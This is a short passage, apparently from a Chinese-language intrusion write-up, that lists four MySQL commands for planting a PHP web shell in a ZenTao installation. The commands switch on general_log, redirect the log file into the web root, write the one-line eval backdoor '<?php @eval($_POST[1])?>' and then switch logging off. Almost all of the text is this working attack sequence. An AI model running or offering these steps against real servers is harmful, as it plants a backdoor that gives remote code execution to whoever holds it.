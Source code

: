 ![Untitled](Untitled%206.png)

![Untitled](Untitled%207.png)

## general_log方式成功

general_log写入四部曲：

1. 开启日志：`set global general_log='on';` 
2. 更改日志路径：`set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php';` 
3. 注入shell语句：`select '<?php @eval($_POST[1])?>';` 
4. 关闭日志:`set global general_log='off';`
